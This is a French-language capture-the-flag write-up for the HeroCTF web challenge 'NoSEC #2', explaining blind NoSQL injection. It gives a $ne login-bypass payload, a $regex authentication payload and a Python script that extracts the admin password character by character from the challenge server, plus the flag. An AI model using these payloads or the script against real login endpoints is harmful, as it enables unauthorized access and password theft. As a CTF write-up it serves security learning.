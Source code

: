 # NoSEC #2

### Description

Vous devez retrouver le mot de passe de l'administrateur pour valider le challenge ! L'URL du challenge reste la même.

Format: Hero{motdepasse}

### Solution 

Deuxième niveau du challenge [NoSEC #1](https://github.com/0xSysR3ll/CTF/tree/master/HeroCTF/Web/NoSEC1)

Nous sommes toujours sur une injection NoSQL, le principe reste basiquement le même mais cette fois-ci il va falloir `bruteforcer` le mot de passe.

La payload du niveau 1 consistait à envoyer : `{"username": "admin", "password": {"$ne": randomThing}}` qui faisait valider le mot de passe.

Ici, il va falloit donc falloir faire un attaque du type `Blind NoSQL` en utilisant les regex.

On teste en envoyant : `{"username": {"$eq": "admin"}, "password": {"$regex": "" }}`

On est bien authentifié.

Avec un script python on va alors pouvoir récupérer caractère par caractère le mot de passe.


```python
import requests

passwd = ""
headers = {'Content-Type': 'application/json'}
url = "http://challs.heroctf.fr:3000/login"

for _ in range(32):
    alphabet = "abcdefghijklmnopqrstuvwxyz0123456789"
    for i in range(len(alphabet)):
        c = alphabet[i]
        data = '{"username": {"$eq": "admin"}, "password": {"$regex": "^'+passwd+c+'" }}'
        response = requests.post(url=url, headers=headers, data=data, verify=True)
        
        if b'success' in response.content:
            print('Nouveau caractère trouvé : ', c)
            passwd += c
            
            print("Flag : Hero{"+passwd+"}")
```

Flag : `Hero{5d41402abc4b2a76b9719d911017c592}`
